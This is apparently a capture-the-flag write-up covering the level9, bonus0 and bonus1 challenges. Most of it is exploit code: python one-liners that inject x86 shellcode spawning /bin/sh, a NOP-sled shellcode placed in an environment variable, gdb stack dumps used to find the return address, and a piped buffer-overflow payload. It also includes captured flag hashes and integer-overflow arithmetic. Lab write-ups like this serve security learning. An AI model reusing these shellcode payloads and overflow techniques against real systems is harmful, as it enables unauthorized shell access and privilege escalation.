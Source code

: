```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "A" * 59 + "\x0c\xa0\x04\x08"')
```

[Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)  

`f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`
# bonus0


```
r
-
OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO
-
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

`0x41336141 -> offset 9`

```
export shellcode=$(python -c 'print "\x90"*153 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

```
gdb ./bonus0
break main
run
x/600wx $esp
0xbffff808: 0x90909090 0x90909090 0x90909090 0x90909090
0xbffff818: 0x90909090 0x90909090 0x90909090 0x90909090 # This one
0xbffff828: 0x90909090 0x90909090 0x90909090 0x90909090
```

`0xbffffeb8`

```bash
(python -c 'print("A" * 20)'; python -c 'import struct;print("B" * 9 + struct.pack("I", 0xbffffeb8) + "B"*7)'; cat) | ./bonus0
```
  
`cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`

# bonus1

The goal is to have a value than match with 44 bytes

```
* 4 == << 2
So
44 = 00101100b
>> 2 == 00001011b == 11
```
```
11d = 00000000 00000000 00000000 00001011b
10000000 00000000 00000000 00001011 = -2147483637
^
For the `-`
```
```
And if we << 2
00000000 00000000 00000000 00101100 = 44
```
